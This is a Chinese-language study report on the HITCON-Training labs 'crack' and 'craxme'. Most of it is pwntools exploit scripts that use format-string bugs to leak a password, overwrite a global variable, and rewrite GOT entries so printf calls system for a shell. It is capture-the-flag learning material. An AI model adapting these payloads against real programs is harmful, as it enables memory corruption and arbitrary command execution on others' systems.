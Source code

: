 # week2
## hitcon-training -- lab7(crack)
密码是随机生成的 存在格式化字符串漏洞

<img width="264" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/076b02b9-cc70-4179-80f0-a5335602685f">


可以利用格式化字符串读获取password
### exp_crack.py
```python
from pwn import *
p = process("./crack")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

password_addr = 0x804a048

payload = p32(password_addr) + b'#%10$s'
ru('name ? ')
sl(payload)

ru('#')
password = u32(rx(4))
log.info("password ==> {}".format(hex(password)))

ru('password :')
sl(str(password))

shell()
```

## hitcon-training -- lab8(craxme)
存在格式化字符串漏洞 

<img width="306" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/0c88b93b-709f-49dc-a22f-0b5c98d00d13">

可以用格式化字符串写漏洞复写全局变量magic

前两个复写的方式相同
### exp_craxme1.py
```python
from pwn import *
p = process("./craxme")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

magic_addr = 0x804a038
magic_data = 0xDA 

payload = fmtstr_payload(7, {magic_addr:magic_data}, write_size="byte")
ru("magic :")
sl(payload)

shell()

#raw_input("Ther")
```

### exp_craxme2.py
```python
from pwn import *
p = process("./craxme")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

magic_addr = 0x804a038
magic_data = 0xFACEB00C

payload = p32(magic_addr) + p32(magic_addr+2)
payload+= b"%45060c%7$hn%19138c%8$hn"

raw_input("Ther")
ru("magic :")
sl(payload)

shell()
```

具体说一下getshell的方法

程序中有system函数 所以我们是可以通过覆盖某个函数的got表为system来getshell的

但只有一次格式化字符串的机会 在格式化字符串函数之后 可能执行的分支为system和puts函数

<img width="318" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/30fe380e-80cf-4db0-b51b-901a4d9bfdd8">

但调用这两个函数的参数不可控，所以需要复写其他函数的got表 最后发现只有printf函数的参数可控

那么我们可以将puts的got表覆盖为main函数调用read的地址

同时将printf的got表覆盖为system

这样在程序继续执行时就会调用puts函数 然后跳转到read@main 继续执行一次read和printf

在执行到printf时真正调用的是system 我们的输入就是system的参数

### exp_craxme3.py
```python
from pwn import *
p = process("./craxme")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

pritnf_got = 0x804a010
puts_got = 0x804a018
read_main = 0x804859B
system_plt = 0x8048410

payload = p32(puts_got) + p32(puts_got+2) + p32(pritnf_got) + p32(pritnf_got+2)
payload+= b"%34187c%7$hn%33385c%8$hn%31756c%9$hn%33780c%10$hn"

raw_input("Ther")
ru("magic :")
sl(payload)

shell()
```



